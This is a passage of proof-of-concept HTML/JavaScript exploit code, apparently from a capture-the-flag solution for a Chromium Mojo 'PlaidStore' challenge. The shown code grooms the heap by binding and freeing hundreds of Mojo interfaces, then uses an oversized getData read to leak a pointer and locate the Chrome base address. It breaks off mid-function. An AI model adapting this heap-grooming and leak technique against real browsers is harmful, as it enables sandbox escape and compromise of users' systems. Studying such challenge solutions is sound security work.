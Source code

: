 _poc1.html_:

```html
<html>
  <body>
    <iframe id="frame1" src="poc2.html"></iframe>
    <script>
      let elm = document.getElementById("frame1");
      window.onmessage = function(e) {
        let elm = document.getElementById("frame1");
        elm.parentNode.removeChild(elm);
        document.location.reload();
      }

      setTimeout(function() {
        document.location.reload();
      }, 800);
    </script>
  </body>
</html>
```

_poc2.html_:

```html
<html>     
  <body>
  <script src="mojo/public/js/mojo_bindings.js"></script>
  <script src="third_party/blink/public/mojom/plaidstore/plaidstore.mojom.js"></script>
  <script>
    async function get_chrome_base(plaid_store) {
      var defrag = [];
      var DEFRAG_SIZE = 0x100;
      for (var i = 0; i < DEFRAG_SIZE; ++i) {
        let iface = new blink.mojom.PlaidStorePtr();
        let iface_req = mojo.makeRequest(iface);
        Mojo.bindInterface(blink.mojom.PlaidStore.name,
          iface_req.handle, "context", true);
        while (!iface.ptr.isBound());
        defrag.push(iface);
      }

      var interfaces = [];
      let NUM_IFACES = 0x500;
      for (var i = 0; i < NUM_IFACES; ++i) {
        let iface = new blink.mojom.PlaidStorePtr();
        let iface_req = mojo.makeRequest(iface);
        Mojo.bindInterface(blink.mojom.PlaidStore.name,
          iface_req.handle, "context", true);
        while (!iface.ptr.isBound());
        interfaces.push(iface);
      }

      for (var i = 0; i < NUM_IFACES; i += 2)  {
        interfaces[i].ptr.reset();
        while (interfaces[i].ptr.isBound());
        interfaces[i] = undefined;
      }

      /* Try to leak a PortObseverThunk */
      var dummy_data = new Array(0x10);
      dummy_data.fill(0x42);
      plaid_store.storeData("test", dummy_data);
      
      let resolved = await plaid_store.getData("test", 0x200);
```